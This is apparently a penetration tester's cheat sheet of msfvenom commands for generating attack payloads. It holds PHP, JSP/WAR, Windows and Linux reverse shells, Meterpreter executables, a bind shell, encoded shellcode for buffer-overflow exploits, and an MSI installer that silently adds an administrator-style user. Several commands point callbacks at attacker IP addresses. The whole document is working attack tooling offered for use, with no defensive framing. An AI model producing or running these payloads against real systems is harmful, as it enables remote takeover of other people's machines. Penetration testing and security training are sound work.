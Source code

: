 


##  MSFVenom - Generating Payloads


##  PHP reverse shell payload
msfvenom -p php/reverse_php LHOST=YOURIPADDRESS LPORT=443 > shell.php


##  Windows reverse shellcode for python script buffer overflow
msfvenom -p windows/shell_reverse_tcp LHOST=YOURIPADDRESS LPORT=443 -f c -e x86/alpha_mixed -b "\x00\x04\xcd\x77\x3f"


##  Windows bind shellcode for python script buffer overflow
msfvenom -p windows/shell_bind_tcp LPORT=444 -f c -e x86/shikata_ga_nai -b  "\x00\x04\xcd\x77\x3f"


##  Meterpreter exe with reverse shell
msfvenom -p windows/meterpreter/reverse_tcp LHOST=YOURIPADDRESS LPORT=4444 -f exe > meterpreter.exe
	
	
##  64-bit
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.12.120 LPORT=4444 -f exe > met64.exe


##  WAR file for Apache Tomcat.
msfvenom -p java/jsp_shell_reverse_tcp LHOST=YOURIPADDRESS LPORT=443 -f war > shell.war


##  find malicious js file extract shell.war then browse to js file in browser
jar -xvf shell.war


##  Windows MSI
msfvenom -f msi-nouac -p windows/adduser USER=hackerman PASS=password -o add_user.msi


##  Javascript
msfvenom -p linux/x86/shell_reverse_tcp LHOST=10.11.0.121 LPORT=443 -f js_le


##  Linux elf binary
msfvenom -p linux/x86/shell_reverse_tcp LHOST=10.11.0.121 LPORT=443 -b "\x00" -f elf -o filename


